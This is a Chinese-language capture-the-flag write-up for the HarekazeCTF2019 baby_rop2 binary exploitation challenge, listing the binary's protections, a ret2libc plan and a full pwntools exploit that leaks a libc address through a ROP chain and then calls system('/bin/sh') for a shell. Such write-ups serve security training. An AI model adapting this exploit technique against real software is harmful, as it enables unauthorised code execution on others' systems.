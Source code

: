 ```yaml
---
author: 
  name: Zephyr
title: HarekazeCTF2019_baby_rop2
date: 2022-3-23 9:45:03
permalink: /pages/2e1547494524d196
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# HarekazeCTF2019_baby_rop2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/HarekazeCTF2019_baby_rop2/babyrop2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数及程序表如下

![HarekazeCTF2019_baby_rop2_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/HarekazeCTF2019_baby_rop2_1.png)

## 思路分析

1. 目前信息：
   - 明显的栈溢出漏洞
   - plt内无system
   - 无/bin/sh字符串
   - No PIE
2. 思路：
   - ret2libc做法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/HarekazeCTF2019_baby_rop2/babyrop2'
io = remote('node4.buuoj.cn', 29266)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x20+8
pop_rdi_ret = 0x400733
pop_rsi_r15_ret = 0x400731
format_addr = 0x400770
printf_plt = elf.plt['printf']
libc_start_main_got = elf.got['__libc_start_main']
main_addr = elf.symbols['main']
payload = flat(['a'*padding, pop_rdi_ret, format_addr, pop_rsi_r15_ret,libc_start_main_got, 0xdeadbeef, printf_plt, main_addr])
io.sendafter("What's your name? ", payload)
leak_libc_start_main = read_addr = u64(io.recvuntil('\x7f')[-6:].ljust(8, b'\x00'))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libcbase = leak_libc_start_main-libc.dump('__libc_start_main')
system = libcbase+libc.dump('system')
bin_sh = libcbase+libc.dump('str_bin_sh')
payload = flat(['a'*padding, pop_rdi_ret, bin_sh, system])
io.sendafter("What's your name? ", payload)
io.interactive()
```